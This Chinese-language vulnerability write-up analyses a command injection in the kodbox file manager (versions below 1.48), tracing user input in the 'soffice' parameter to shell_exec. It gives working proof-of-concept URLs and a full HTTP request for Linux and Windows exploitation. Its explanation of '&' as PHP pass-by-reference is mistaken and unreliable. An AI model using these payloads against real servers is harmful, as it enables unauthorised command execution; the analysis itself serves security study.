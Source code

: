 

# 奇安信攻防社区-某cms代码注入漏洞复现与分析

# 漏洞前言：

kodbox 是一个网络文件管理器。是一款功能丰富的私有云在线文档管理系统。它可以帮助你快速搭建一个私有网盘/云桌面，方便地管理和共享文件。它也是一个网页代码编辑器，允许您直接在网页浏览器中开发网站。12月16日发布漏洞公告kalcaddle kodbox 中发现命令注入漏洞，影响版本为小于1.48。

# 漏洞环境：

本地环境搭建：

源码下载：https:*//github.com/kalcaddle/kodbox*

下载1.47版本源码进行搭建，需要php版本为5以上，这里不做过多赘述。

![image-20231220145426948](assets/1709861081-ec13726d83b12aea24bf538e65c036c1.jpg)

# 漏洞分析：

根据公告内容：受此漏洞影响的是文件plugins/officeViewer/controller/libreOffice/index.class.php的功能检查，对参数 soffice 的操纵会导致命令注入。

![image-20231220155207246](assets/1709861081-2bff4ee3fc05ea31607ca1f0bfb7e59c.jpg)

那么进一步跟进代码进行查看：

先查看主函数：

![image-20231220155537091](assets/1709861081-66bf81f291b3ff0f5b3a73d277d7c589.jpg)

主函数作用是在用户访问文件的时候首先获取处理文件插件功能的插件，再检查是否允许使用名为 'LibreOffice' 的扩展。getSoffice()用于检查能否成功获取到LibreOffice 的可执行文件路径，最后通过传入的filepath获取指定文件信息。

跟进getSoffice()方法：

![image-20231220164944113](assets/1709861081-b68966686d9b12d0022c498f711e8ffc.jpg)

`getSoffice` 方法用于获取LibreOffice的可执行文件路径的函数。它首先从配置中获取 LibreOffice 的安装路径，然后通过 `checkBin` 方法检查该路径是否有效。跟进checkBin()：

![image-20231220185257407](assets/1709861081-3f6a3a3928500f55cdbf4110b35219dc.jpg)

`checkBin` 方法用于检查指定可执行文件是否可用。通过执行 `shell_exec` 来尝试运行指定的可执行文件。

其中使用`shell_exec`函数执行了命令并将输出结果存储在`$result`变量中。

![image-20231227171859395](assets/1709861081-04b6840ff0d90ec57ec87036c5441f06.jpg)

```php
private function checkBin($bin,$check){
    $code = Cache::get($bin);
    if ($code) return $code;
    $result = shell_exec($bin.' --help');  // ' 2>&1'
    $code = strstr($result,$check) ? true : false;
    Cache::set($bin, $code);
    return $code;
}
```

可以看到这里$bin可控。

下面查看哪里调用了getSoffice()，找到函数check()；

![image-20231220162324449](assets/1709861081-5d09ea63ede8b5b9289f2098db93795a.jpg)

```php
public function check(){
       $bin = $this->in['soffice'];
       //从 HTTP 请求中获取名为 `soffice` 的参数并将其值赋给变量 $bin
    $plugin = Action($this->pluginName);
       if(!empty($bin)) {
           $plugin->setConfig(array('lbSoffice' => $bin));
       }
    if(isset($_GET['check'])){
       if(!function_exists('shell_exec')) {
          show_json(LNG('officeViewer.libreOffice.execDisabled'), false);
       }
       $msg = '';
           if(!$soffice = $this->getSoffice()) {
          $msg = LNG('officeViewer.libreOffice.checkError');
           }
           show_json($msg, !!$soffice);
    }
       Action($this->pluginName)->includeTpl('static/libreoffice/check.html');
}
```

可以看到通过此函数先从 HTTP 请求中获取名为 `soffice` 的参数，并将其值赋给变量 `$bin`，下来检查是否存在名为 "check" 的 GET 参数，如果存在才会进入条件语句的代码块，检查`shell_exec()` 函数是否可用，接下来调用`getSoffice()` 方法。

![image-20231221152920377](assets/1709861081-3555ffc4565df50a8c85e226f10a8fdb.jpg)

在`getSoffice()` 方法中`isset($data['soffice'])` 检查数组 `$data` 中是否存在键名为 `'soffice'` 的元素，如果存在返回true，并将$data\['soffice'\]\` 的值赋给$bin。

![image-20231227102617040](assets/1709861081-c6f092e73a0f4dd1ffeb16336f2c3a69.jpg)

拼接soffice参数：plugin/officeViewer/libreOffice/index/check&soffice

使用 `&` 连接check和soffice参数可以将参数以引用传递的方式传递给函数或方法。

（在php中两个参数使用 `&` 连接参数是为了以引用传递的方式将参数传递给函数或方法。PHP 函数和方法中的参数传递分为按值传递、引用传递。默认情况下PHP 函数和方法中的参数传递是按值传递（pass by value）的，也就是说会创建参数的副本并传递给函数或方法。这意味着在函数或方法内部对参数进行修改不会影响到原始的参数。然而，有时候我们希望在函数或方法内部能够修改原始的参数。这时可以使用引用传递（pass by reference），在参数前面加上 `&` 符号来实现。这样，当参数在函数或方法内部被修改时，原始的参数也会被修改。）

![image-20231227162319706](assets/1709861081-74e003c4ab60677d2dd31d4241644078.jpg)

```php
$bin = '"'.trim(iconv_system($bin)).'"';    // win路径空格处理
```

在windows环境下对$bin特殊处理：getSoffice()中$bin参数会被两个双引号闭合，且使用`trim()` 函数删除 `$bin` 变量字符串首尾的空白字符，包括空格、制表符、换行符等。iconv\_system函数用于将“$bin”字符进行编码转换。

![image-20240102161322392](assets/1709861081-e6739b82ba21602b6a50c2278f5f2237.jpg)

windows环境下可以通过传入文件路径执行bat文件实现远程命令执行。

测试poc为：

```php
plugin/officeViewer/libreOffice/index/check&soffice=D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

linux环境下可以通过soffice传入命令通过闭合双引号实现命令注入。

测试poc为：

```php
index.php?plugin/officeViewer/libreOffice/index/check&soffice=";id;%23&check=1
```

# 漏洞利用：

**linux系统下漏洞利用：**

![image-20231227162025164](assets/1709861081-5d7914728a68a750e41aeb2ab79f73d5.jpg)

GET /kodbox/index.php?plugin/officeViewer/libreOffice/index/check&soffice=";id;%23&check=1 HTTP/1.1  
Host: 192.168.145.131  
Cache-Control: max-age=0  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
Cookie: KOD\_SESSION\_ID=9fbbb7a218e0d680fab1ce38b9879adc; CSRF\_TOKEN=6jfthGWYzrs5R8Xr; kodUserID=1  
Connection: close

![image-20231227161617161](assets/1709861081-8ce64232dd4b389a2f70e830c9233a8a.jpg)

**windows系统下：**

利用条件：1、需要权限可上传写入文件到服务器中。2、需要有可执行文件的绝对路径。

一、进入后台上传poc文件

![image-20231220145907781](assets/1709861081-94288ef67f9fd492cbf3a0a51e11c3ee.jpg)

poc内容为：

![image-20231220150009307](assets/1709861081-fa1164039e4529f92f5fd7f313345328.jpg)

poc上传的绝对路径为：

```php
D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

![image-20231220154626142](assets/1709861081-816765495d8b13990fa7e925fa3a2c15.jpg)

二、执行poc.bat：

```php
index.php?plugin/officeViewer/libreOffice/index/check&soffice=D:\softs\phpstudy\phpstudy_pro\WWW\kodbox\data\files\202312\19_81229b0a\poc.bat
```

![image-20231220155010220](assets/1709861081-45fbd58f68549bad4768bd95aad7f537.jpg)

执行结果：

![image-20231220155044498](assets/1709861081-d0aafeb91891b85e21e7494daeb0a1a6.jpg)

